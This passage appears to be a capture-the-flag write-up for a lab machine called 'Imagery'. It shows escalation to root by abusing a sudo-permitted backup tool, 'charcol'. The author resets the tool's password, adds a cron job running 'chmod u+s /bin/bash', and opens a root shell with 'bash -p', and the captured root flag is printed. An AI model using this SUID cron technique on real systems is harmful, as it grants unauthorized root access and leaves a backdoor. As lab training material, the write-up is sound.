             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] File "/usr/lib/python3.12/getpass.py", line 146, in _raw_input
    line = input.readline()
           ^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] KeyboardInterrupt
```

## Privilege Escalation to root

We noticed that the application allowed us to `reset` the `Charcol application password` to `default` by using the `-R` option.

```shell
mark@Imagery:/dev/shm$ sudo /usr/local/bin/charcol -R

Attempting to reset Charcol application password to default.
[2025-09-27 21:34:58] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-27 21:35:04] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.
```

After `resetting` the `password` we dropped into a `shell` using the `parameter` of `shell`.

```shell
mark@Imagery:/dev/shm$ sudo /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode:   
Are you sure you want to use 'no password' mode? (yes/no): yes
[2025-09-27 21:35:31] [INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.
```

```shell
mark@Imagery:/dev/shm$ sudo /usr/local/bin/charcol shell


  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2025-09-27 21:35:35] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol>
```

Now with access to the actual application we were allowed to perform a lot of actions but most importantly, we could configure a `Cronjob`.

```shell
charcol> help
[2025-09-27 21:35:43] [INFO] 
Charcol Shell Commands:

  Backup & Fetch:
    backup -i <paths...> [-o <output_file>] [-p <file_password>] [-c <level>] [--type <archive_type>] [-e <patterns...>] [--no-timestamp] [-f] [--skip-symlinks] [--ask-password]
      Purpose: Create an encrypted backup archive from specified files/directories.
      Output: File will have a '.aes' extension if encrypted. Defaults to '/var/backup/'.
      Naming: Automatically adds timestamp unless --no-timestamp is used. If no -o, uses input filename as base.
      Permissions: Files created with 664 permissions. Ownership is user:group.
      Encryption:
        - If '--app-password' is set (status 1) and no '-p <file_password>' is given, uses the application password for encryption.
        - If 'no password' mode is set (status 2) and no '-p <file_password>' is given, creates an UNENCRYPTED archive.
      Examples:
        - Encrypted with file-specific password:
          backup -i /home/user/my_docs /var/log/nginx/access.log -o /tmp/web_logs -p <file_password> --verbose --type tar.gz -c 9
        - Encrypted with app password (if status 1):
          backup -i /home/user/example_file.json
        - Unencrypted (if status 2 and no -p):
          backup -i /home/user/example_file.json
        - No timestamp:
          backup -i /home/user/example_file.json --no-timestamp

    fetch <url> [-o <output_file>] [-p <file_password>] [-f] [--ask-password]
      Purpose: Download a file from a URL, encrypt it, and save it.
      Output: File will have a '.aes' extension if encrypted. Defaults to '/var/backup/fetched_file'.
      Permissions: Files created with 664 permissions. Ownership is current user:group.
      Restrictions: Fetching from loopback addresses (e.g., localhost, 127.0.0.1) is blocked.
      Encryption:
        - If '--app-password' is set (status 1) and no '-p <file_password>' is given, uses the application password for encryption.
        - If 'no password' mode is set (status 2) and no '-p <file_password>' is given, creates an UNENCRYPTED file.
      Examples:
        - Encrypted:
          fetch <URL> -o <output_file_path> -p <file_password> --force
        - Unencrypted (if status 2 and no -p):
          fetch <URL> -o <output_file_path>

  Integrity & Extraction:
    list <encrypted_file> [-p <file_password>] [--ask-password]
      Purpose: Decrypt and list contents of an encrypted Charcol archive.
      Note: Requires the correct decryption password.
      Supported Types: .zip.aes, .tar.gz.aes, .tar.bz2.aes.
      Example:
        list /var/backup/<encrypted_file_name>.zip.aes -p <file_password>

    check <encrypted_file> [-p <file_password>] [--ask-password]
      Purpose: Decrypt and verify the structural integrity of an encrypted Charcol archive.
      Note: Requires the correct decryption password. This checks the archive format, not internal data consistency.
      Supported Types: .zip.aes, .tar.gz.aes, .tar.bz2.aes.
      Example:
        check /var/backup/<encrypted_file_name>.tar.gz.aes -p <file_password>

    extract <encrypted_file> <output_directory> [-p <file_password>] [--ask-password]
      Purpose: Decrypt an encrypted Charcol archive and extract its contents.
      Note: Requires the correct decryption password.
      Example:
        extract /var/backup/<encrypted_file_name>.zip.aes /tmp/restored_data -p <file_password>

  Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
      Verification:
        - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
        - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
      Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
      Examples:
        - Status 1 (encrypted app password), cron:
          CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs -p <file_password>" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), cron, unencrypted backup:
          CHARCOL_NON_INTERACTIVE=true charcol auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), interactive:
          auto add --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
          (will prompt for system password)

    auto list
      Purpose: List all automated jobs managed by Charcol.
      Example:
        auto list

    auto edit <job_id> [--schedule "<new_schedule>"] [--command "<new_command>"] [--name "<new_name>"] [--log-output <new_log_file>]
      Purpose: Modify an existing Charcol-managed automated job.
      Verification: Same as 'auto add'.
      Example:
        auto edit <job_id> --schedule "30 4 * * *" --name "Updated Backup Job"

    auto delete <job_id>
      Purpose: Remove an automated job managed by Charcol.
      Verification: Same as 'auto add'.
      Example:
        auto delete <job_id>

  Shell & Help:
    shell
      Purpose: Enter this interactive Charcol shell.
      Example:
        shell

    exit
      Purpose: Exit the Charcol shell.
      Example:
        exit

    clear
      Purpose: Clear the interactive shell screen.
      Example:
        clear

    help [command]
      Purpose: Show help for Charcol or a specific command.
      Example:
        help backup

Global Flags (apply to all commands unless overridden):
  --app-password <password>    : Provide the Charcol *application password* directly. Required for 'auto' commands if status 1. Less secure than interactive prompt.
  -p, "--password" <password>    : Provide the *file encryption/decryption password* directly. Overrides application password for file operations. Less secure than --ask-password.
  -v, "--verbose"                : Enable verbose output.
  --quiet                      : Suppress informational output (show only warnings and errors).
  --log-file <path>            : Log all output to a specified file.
  --dry-run                    : Simulate actions without actual file changes (for 'backup' and 'fetch').
  --ask-password               : Prompt for the *file encryption/decryption password* securely. Overrides -p and application password for file operations.
  --no-banner                   : Do not display the ASCII banner.
  -R, "--reset-password-to-default"  : Reset application password to default (requires system password verification).
```

We configured a `malicious configuraiton` to set the `SUID Bit` on `/bin/bash` and exited out.

```shell
auto add --schedule "* * * * *" --command "chmod u+s /bin/bash" --name "privesc"
```

```shell
<*" --command "chmod u+s /bin/bash" --name "privesc"
[2025-09-27 21:37:43] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-27 21:37:47] [INFO] System password verified successfully.
[2025-09-27 21:37:47] [INFO] Auto job 'privesc' (ID: a52f705e-2c9a-42c7-bbea-8324dcc7e840) added successfully. The job will run according to schedule.
[2025-09-27 21:37:47] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod u+s /bin/bash
```

```shell
charcol> exit
[2025-09-27 21:38:25] [INFO] Exiting Charcol shell.
```

And there it was, straight to root.

```shell
mark@Imagery:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1474768 Oct 26  2024 /bin/bash
```

```shell
mark@Imagery:/dev/shm$ /bin/bash -p
bash-5.2# 
```

## root.txt

```shell
bash-5.2# cat root.txt 
3504560209a43743e913f43234abbed3
```
